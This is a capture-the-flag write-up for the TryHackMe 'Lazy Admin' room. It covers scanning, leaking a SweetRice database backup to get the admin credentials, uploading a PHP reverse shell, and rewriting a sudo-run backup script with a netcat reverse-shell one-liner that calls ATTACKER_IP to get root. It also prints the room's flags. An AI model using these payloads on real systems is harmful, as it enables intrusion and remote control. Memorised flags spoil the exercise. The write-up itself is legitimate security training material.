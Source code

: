 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Performing some basic `nmap` scans gives us the following information:
```shell-session
$ sudo nmap -sS -vv -oN nmap_scan.txt TARGET_IP
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63


$ sudo nmap -sV -vv -oN nmap_service_scan.txt TARGET_IP
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


$ sudo nmap -sC --top-ports 2000 --script=vuln -vv -oN nmap_vuln_scan.txt TARGET_IP
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|   Hosts that seem down (vulnerable):
|_    224.0.0.251
Nmap scan report for TARGET_IP
Host is up, received echo-reply ttl 63 (0.24s latency).
Scanned at 2023-02-19 16:12:04 IST for 323s
Not shown: 1998 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-enum: 
|_  /content/: Potentially interesting folder
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-dombased-xss: Couldn't find any DOM based XSS.
```

The machine is quite simple in terms of the services running on it, there's a web server and a ssh service running that we can make use of for gaining access and so on. Requesting the web-page for the server running on port 80 shows the default page for _Apache2 Ubuntu_. As dictated by the `vuln` script scan by `nmap`, there's a `/content/` directory that may hold something for us to use...

![](content_folder.png)

Well, sure enough, that _is_ information that interests us. The web page tells us that the web server makes use of `SweetRice`. A quick search using exploitDB shows several vulnerabilities we can use to exploit SweetRice running on the server. The one I'll be using will be the [Backup Disclosure vulnerability in SweetRice 1.5.1](https://www.exploit-db.com/exploits/40718). Visiting the `/content/inc/mysql_backup/` directory gives us access to the SQL backups, which can be downloaded simply by using something like `wget` or just clicking on them. When we view the contents of the `mysql_backup` folder, there's just one file: `mysql_bakup_20191129023059-1.5.1.sql` which can be dowloaded like so:
```shell-session
$ wget http://TARGET_IP/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
```

Checking the contents of the sql bakcup file provides us the admin username as well as a hashed password to crack:
```txt
ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:

  \\"admin\\";s:7:\\"manager\\";s:
  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ ------------------------------- Username for admin account!
  6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ ----- Password for the admin account!

  ;s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

Cracking this hash provides us with the password we require:
![](crackstation_pswd.png)


## Gaining Access

After some research and experimentation, we find that the `/as/` page/directory gives us a place to put these credentials to use:
![](login_portal.png)

The credentials to use are: `manager: Password123`. Once logged in, we're taken to a dashboard. We can now make use of one of the exploits we found when searching on ExploitDB. I'll be making use of the [CSRF Vulnerability in SweetRice 1.5.1](https://www.exploit-db.com/exploits/40700). Uploading our reverse shell code as an ad and then requesting the URL: `10.10.42.5/content/inc/ads/payload.php`, we obtain a reverse shell!
```shell-session
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.42.5] 44012
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 19:36:10 up 11 min,  0 users,  load average: 0.04, 0.19, 0.20
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1057): Inappropriate ioctl for device
bash: no job control in this shell
www-data@THM-Chal:/$ whoami
www-data

www-data@THM-Chal:/$ cd /home
www-data@THM-Chal:/home$ ls
itguy
www-data@THM-Chal:/home$ cd itguy
www-data@THM-Chal:/home/itguy$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt

www-data@THM-Chal:/home/itguy$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}

```

And just like that, we've obtained the user flag!
> What is the user flag?
> 
> Answer: `THM{63e5bce9271952aad1113b6f1ac28a07}`

## Privilege Escalation

Now that we have a foothold, we can now go ahead and work on obtaining the root flag. Now, looking at the rest of the files in `/home/itguy` we find 2 interesting ones:
- `mysql_login.txt`
- `backup.pl`

The contents of these are as follows:
```shell-session
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
rice:randompass

www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Interesting... let's inspect the contents of the `/etc/copy.sh` script.  
```shell-session
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Hmm... it seems like the `/etc/copy.sh` file contains a reverse shell of a sort. Maybe we can leverage that to gain root privileges? Let's try simply replacing the IP `192.168.0.190` with our IP and run a netcat listener at port 5554:

```shell-session
www-data@THM-Chal:/$ cd etc
www-data@THM-Chal:/etc$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 5554 >/tmp/f" > copy.sh

www-data@THM-Chal:/home/itguy$ python -c 'import pty;pty.spawn("/bin/bash")';                             
www-data@THM-Chal:/home/itguy$ cd /
www-data@THM-Chal:/$ sudo perl /home/itguy/backup.pl

# On our netcat listener:
$ nc -nvlp 5554
listening on [any] 5554 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.42.5] 49252
# whoami
root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

We have the root flag!
> What is the root flag?
> 
> Answer: `THM{6637f41d0177b6f37cb20d775124699f}`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Lazy Admin](https://tryhackme.com/room/lazyadmin)
